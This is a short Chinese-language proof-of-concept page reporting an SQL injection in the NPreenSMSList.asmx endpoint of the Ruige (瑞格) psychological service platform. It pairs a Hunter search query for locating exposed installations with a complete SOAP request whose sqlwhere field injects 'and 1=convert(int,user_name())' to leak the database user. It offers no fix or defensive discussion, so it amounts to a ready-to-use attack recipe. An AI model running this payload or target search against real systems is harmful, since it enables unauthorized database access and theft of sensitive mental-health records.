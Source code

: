 # 瑞格智慧心理服务平台NPreenSMSList.asmx存在sql注入漏洞

瑞格智慧心理服务平台NPreenSMSList.asmx存在sql注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## hunter

```javascript
web.body="瑞格智慧心理服务平台"
```

## poc

```javascript
POST /NPreenManage/NPreenSMSList.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "RuiGe.WebUi.NPreenSMS/Seach"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Seach xmlns="RuiGe.WebUi.NPreenSMS">
      <sqlwhere>and 1=convert(int,user_name())</sqlwhere>
    </Seach>
  </soap:Body>
</soap:Envelope>
```

![image-20241020214327143](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410202143216.png)